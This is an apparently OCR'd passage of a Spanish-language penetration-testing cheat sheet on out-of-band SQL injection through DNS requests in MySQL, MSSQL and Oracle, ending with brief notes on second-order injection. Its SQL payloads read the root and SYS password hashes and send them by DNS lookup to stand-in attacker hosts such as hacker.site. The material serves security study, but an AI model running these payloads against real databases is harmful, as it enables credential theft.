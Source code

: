 Provocando peticiones de DNS

#### MySQL (win)

Función: LOAD-FILE() lee el archivo y devuelve el contenido del archivo como una cadena:

```sql
SELECT LOAD_FILE("C:\\Windows\\system.uni");
```

Podemos explotar esta función y provocar las solicitudes de DNS solicitando una ruta de UNC como esta: \[data].hacker.site

```sql
SELECT LOAD_FILE(CONCAT('\\\\', 'SELECT password FROM mysql.user WHERE user=\'root\'','.hacker.site'));
```

#### MSSQL

Podemos provocar solicitudes de DNS usando **Caminos de UNC** como lo hicimos con MySQL

Podemos utilizar el procedur extendido almacenadoe MASTER..XP\_FILEEXIST determinar si existe un archivo en particular en el disco o no.

```sql
EXEC MASTER..XP_FILEEXIST 'C:\Windows\system.ini'
```

* 2 alternativas son **XP-DIRTREE** y **XP-SUBDIRS**
* Además en imágenes

#### Oracle

**UTL\_INADDR** paquete con las funciones **GET\_HOST\_ADDRESS** and **GET\_HOST\_NAME**

```sql
SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.hacket.site') FROM DUAL
SELECT UTL_INADDR.GET_HOST_NAME((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.hacket.site') FROM DUAL
```

También funciones/paquetes como:

```sql
HTTPURITYPE.GETCLOB
UTL_HTTP.REQUEST
DBMS_LDAP.INIT
```

> Se puede utilizar, pero depende de la versión de Oracle

Se puede automatizar con SQLMAP

→ http://www.slideshare.net/stamparm/dns-exfiltration-using-sqlmap-13163281

## Exploiting Second-Order SQL Injection

* Las inyecciones SQL de segundo orden son extremadamente poderosas, al igual que su equivalente en el espacio de primer orden; Sin embargo, debido a su naturaleza, son más difíciles de detectar.
* El exploit se presenta en una sola solicitud y desencadenante cuando la solicitud se encarga de una solicitud diferente.
* Los escáneres automatizados modernos son incapaces de realizar la metodología rigurosa necesariaPara descubrir vulnerabilidades de segundo orden
* Porque hay varios escenarios posibles
